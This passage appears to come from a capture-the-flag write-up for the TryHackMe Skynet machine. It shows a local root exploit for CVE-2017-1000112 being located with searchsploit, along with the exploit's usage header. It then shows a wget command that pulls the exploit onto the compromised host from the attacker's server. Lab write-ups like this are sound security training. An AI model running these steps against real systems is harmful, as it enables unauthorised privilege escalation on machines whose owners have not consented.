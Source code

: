 There is an exploit listed that matches our kernel exactly:

```text
Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP) | linux/local/43418.c
```

Let's grab the file and have a look:

```text
root@kali:/home/kali/thm/skynet# searchsploit -m linux/local/43418.c
  Exploit: Linux Kernel < 4.4.0-83 / < 4.8.0-58 (Ubuntu 14.04/16.04) - Local Privilege Escalation (KASLR / SMEP)
      URL: https://www.exploit-db.com/exploits/43418
     Path: /usr/share/exploitdb/exploits/linux/local/43418.c
File Type: C source, ASCII text, with CRLF line terminators
Copied to: /home/kali/thm/skynet/43418.c

root@kali:/home/kali/thm/skynet# cat 43418.c
// A proof-of-concept local root exploit for CVE-2017-1000112.
// Includes KASLR and SMEP bypasses. No SMAP bypass.
// Tested on Ubuntu trusty 4.4.0-* and Ubuntu xenial 4-8-0-* kernels.
//
// EDB Note: Also included the work from ~ https://ricklarabee.blogspot.co.uk/2017/12/adapting-poc-for-cve-2017-1000112-to.html
//           Supports: Ubuntu Xenial (16.04) 4.4.0-81
//
// Usage:
// user@ubuntu:~$ uname -a
// Linux ubuntu 4.8.0-58-generic #63~16.04.1-Ubuntu SMP Mon Jun 26 18:08:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
// user@ubuntu:~$ whoami
// user
// user@ubuntu:~$ id
// uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
// user@ubuntu:~$ gcc pwn.c -o pwn
// user@ubuntu:~$ ./pwn
<SNIP>
```

Simple to use, just get the file over to the server and compile it, then run to become root. Let's give it a go:

```text
www-data@skynet:/tmp$ wget http://10.14.6.200:8000/43418.c
wget http://10.14.6.200:8000/43418.c
--2021-02-16 17:17:41--  http://10.14.6.200:8000/43418.c
Connecting to 10.14.6.200:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24033 (23K) [text/plain]
Saving to: '43418.c'
43418.c             100%[===================>]  23.47K  --.-KB/s    in 0.03s
2021-02-16 17:17:41 (676 KB/s) - '43418.c' saved [24033/24033]
```
